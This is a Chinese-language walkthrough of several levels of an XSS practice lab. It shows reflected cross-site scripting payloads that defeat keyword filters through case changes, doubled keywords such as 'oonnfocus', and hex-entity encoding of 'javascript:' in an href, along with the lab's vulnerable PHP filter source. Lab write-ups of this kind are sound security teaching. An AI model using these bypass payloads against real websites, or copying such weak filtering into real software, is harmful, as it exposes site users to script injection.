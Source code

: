 ```php
" onfocus=alert(/xss/)
<input name="keyword" value="" focus="alert(/xss/)&quot;">
//onfocus变成了focus on被转义了
```

尝试大小写绕过

```php
" Onfocus=alert(/xss/)
<input name="keyword" value="" focus="alert(/xss/)&quot;">
```

尝试双写绕过(payload)

```php
" oonnfocus=alert(/xss/) //
//成功绕过 弹窗
```

* * *

## less 8

```php
<a href=javascript:alert(/xss)></a>
<a href="<a hr_ef=javascr_ipt:alert(/xss)></a>">友情链接</a>
    //href被转义 尝试绕过都不行
```

在验证很严格的情况下 应该想到编码绕过:
这里使用unicode编码来绕过 (十六进制) payload:

```php
javascrip&#x74:alert(/xss/)
<a href="javascript:alert(/xss/)">友情链接</a>
```

成功绕过

------

## less 9

尝试大小写 双写 发现参数传不到下面 查看源码:

```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
```
